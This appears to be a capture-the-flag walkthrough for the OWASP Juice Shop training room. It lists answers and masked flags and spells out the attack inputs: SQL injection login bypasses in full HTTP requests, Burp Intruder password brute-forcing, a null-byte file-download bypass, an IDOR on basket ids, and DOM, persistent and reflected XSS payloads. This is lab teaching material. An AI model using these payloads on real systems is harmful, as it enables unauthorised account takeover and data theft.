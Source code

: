 # OWASP Juice Shop


- Deploy the VM attached to this task to get started! You can access this machine by using your browser-based machine, or if you're connected through OpenVPN.

	no answer needed

- Once the machine has loaded, access it by copying and pasting its IP into your browser; if you're using the browser-based machine, paste the machines IP into a browser on that machine.

	no answer needed

- What's the Administrator's email address?

	- `admin@juice-sh.op`

- What parameter is used for searching? 

	- `q`

- What show does Jim reference in his review?

	- `star trek`

- Log into the administrator account!

	- Perform a login request when Burp is capturing.

		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 49
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss
		{"email":"email@email.org","password":"password"}
	
	- We change this request in:

		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 49
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss
		{"email":"' OR 1=1--","password":"password"}

	- And forward this request.
	- `32***0f21372b*******608************0e02a`

- Log into the Bender account!

	- Capture another login request or change the previous one to this:

		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 45
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss;
		{"email":"bender@juice-sh.op'--","password":"edededededed"}

	- `fb***762a3c*******9320************d4066`

- Bruteforce the Administrator account's password!

	- For the payload, we will be using the best1050.txt from Seclists. (Which can be installed via: `apt-get install seclists`)
	- You can load the list from `/usr/share/seclists/Passwords/Common-Credentials/best1050.txt`
	- Copy another new login request, right click and Send to Intruder.
	- Change the email to `admin@juice-sh.op`.
	- Clear all the `§` symbols and add them only to the password field.
	- Load the list into BurpSuite and Start the Attack.
	- See where request (into the results tab) has `200` as Status.
	- *Tips* On the above bar of results tab you can filter results hiding 3xx, 4xx, and 5xx response code.
	- `***10d06d*******7cd809************f1ac0e`

- Reset Jim's password!

	- Logout
	- Reset Jim's password
	- `094fb***48e52*******7d05************7257`

- Access the Confidential Document!

	- Navigate to the About Us page, and hover over the "Check out our terms of use".
	- The link is `something/ftp/legal.md`
	- The `/ftp/` folder is publicly exposed!
	- Download all the files in that folder.
	- Go to home and access the flag.
	- `edf9*812*******c5fee***************50c5b`

- Log into MC SafeSearch's account!

	- `mc.safesearch@juice-sh.op`, `Mr. N00dles`
	- `66bd*ffad9e6*******003f************5d7f0`

- Download the Backup file!

	- Add the poison NULL byte to the file you would like to download.
	- e.g. `http:<TARGET_IP>/ftp/file.md.bak%2500.md`
	- `b**********579e85*06fee************13795`

- Access the administration page!

	- Open the file `/main-es2015.js`.
	- You will find a path called `administration`.
	- 403
	- Log in as admin.
	- Go to `/administration` and grab the flag.
	- `946*79936********82200************6629a0`

- View another user's shopping basket!

	- Click on `your Basket`. Capture the request with Burp.
	- Capture `GET /rest/basket/1 HTTP/1.1` request.
	- Change the number id from 1 to 2 and forward the request.
	- `41b9*7a36*******4f0ba************ce52121`

- Remove all 5-star reviews!

	- Navigate to the `http://10.10.202.127/#/administration` page again and click the bin icon next to the review with 5 stars!
	- `50c97*cc*******446d61c************2266ef`

- Perform a DOM XSS!
	
	- Input this into the search bar `<iframe src="javascript:alert('xss')">`
	- `9aa*******c30d0*a1f5bb************efe0bf`

- Perform a persistent XSS!

	- Select `Account`, then `Security and Privacy` and then `Last Login IP`.
	- Select `logout` while capturing packets.
	- Add to the request the header `True-Client-IP: <iframe src="javascript:alert(`xss`)">`
	- `149aa*c*******a8a9314***********dc5f156`

- Perform a reflected XSS!

	- Login into the admin account and navigate to the `Order History` page.
	- From there you will see a "Truck" icon, clicking on that will bring you to the track result page. You will also see that there is an id paired with the order.
	- We will use the iframe XSS, <iframe src="javascript:alert(`xss`)">, in the place of the `5267-f73dcd000abcc353`
	- Refresh the page.
	- `23cefe*********9295b261***********60a0`

- Access the /#/score-board/ page

	- `7e***174*****baa03a7************2f72d*6e`
